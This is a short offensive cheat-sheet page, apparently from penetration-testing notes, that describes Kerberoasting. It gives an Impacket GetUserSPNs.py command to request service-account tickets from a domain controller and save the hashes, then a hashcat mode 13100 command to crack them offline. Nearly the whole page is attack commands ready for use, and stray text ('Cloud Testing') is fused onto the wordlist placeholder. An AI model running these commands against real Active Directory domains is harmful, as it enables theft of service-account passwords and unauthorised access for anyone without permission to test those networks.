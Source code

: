 # Kerberoasting

### **Grab SPN tickets**

```text
python /impacket/examples/GetUserSPNs.py -request -dc-ip <targetDomainControllerIP> <domainName>/<username>:<password> | tee SPN_Hashes.out
```

### **Crack Hashes:**

```text
hashcat -m 13100 SPN_Hashes.out <WORDLIST>Cloud Testing
```

